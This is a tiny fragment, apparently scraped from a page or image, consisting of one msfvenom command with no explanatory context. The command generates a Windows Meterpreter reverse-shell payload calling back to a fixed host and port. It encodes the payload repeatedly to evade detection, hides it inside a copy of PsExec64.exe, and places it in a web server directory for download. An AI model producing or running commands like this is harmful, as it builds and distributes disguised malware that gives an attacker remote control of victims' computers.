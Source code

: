 	>msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.108 LPORT=12138 -e x86/shikata_ga_nai -x PsExec64.exe  -i 15 -f exe -o /var/www/html/payload4.exe